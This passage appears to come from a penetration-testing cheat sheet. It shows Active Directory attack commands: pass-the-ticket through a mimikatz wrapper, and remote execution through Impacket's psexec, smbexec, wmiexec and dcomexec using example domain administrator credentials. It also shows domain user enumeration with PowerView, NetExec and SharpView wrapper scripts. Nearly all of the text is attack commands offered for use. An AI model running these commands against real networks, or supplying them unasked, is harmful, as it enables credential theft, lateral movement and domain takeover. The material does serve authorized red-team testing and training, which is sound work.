 **Automated:**
```bash
# Extract tickets
./mimikatz-wrapper.py local tickets

# Pass-the-Ticket attack
./mimikatz-wrapper.py ptt -t 192.168.1.100 -c "dir \\\\server\\share"
```

### Using Impacket Tools

**Manual:**
```bash
# psexec
psexec.py contoso/administrator:Password123!@192.168.1.100

# smbexec
smbexec.py contoso/administrator:Password123!@192.168.1.100

# wmiexec
wmiexec.py contoso/administrator:Password123!@192.168.1.100

# dcomexec
dcomexec.py contoso/administrator:Password123!@192.168.1.100
```

**Automated:**
```bash
# Use Impacket toolkit to automate all tools
./impacket-toolkit.py psexec -t 192.168.1.100
./impacket-toolkit.py wmiexec -t 192.168.1.100
./impacket-toolkit.py smbclient -t 192.168.1.100
./impacket-toolkit.py all -t 192.168.1.100
```

---

## Domain Enumeration

### Domain User Enumeration

**Manual:**
```bash
# Using PowerView
Import-Module .\PowerView.ps1
Get-DomainUser | Export-CSV users.csv -NoTypeInformation
Get-DomainUser -AdminCount | Format-Table

# Using NetExec
netexec smb 192.168.1.100 -u administrator -p 'Password123!' --users
```

**Automated:**
```bash
# Using NetExec wrapper
./netexec-enumerator.py enum users

# Using PowerShell enumeration
./powershell-enumeration.py local

# Using SharpView automation
./sharpview-automator.py users
./sharpview-automator.py users -a  # Admin users only
```
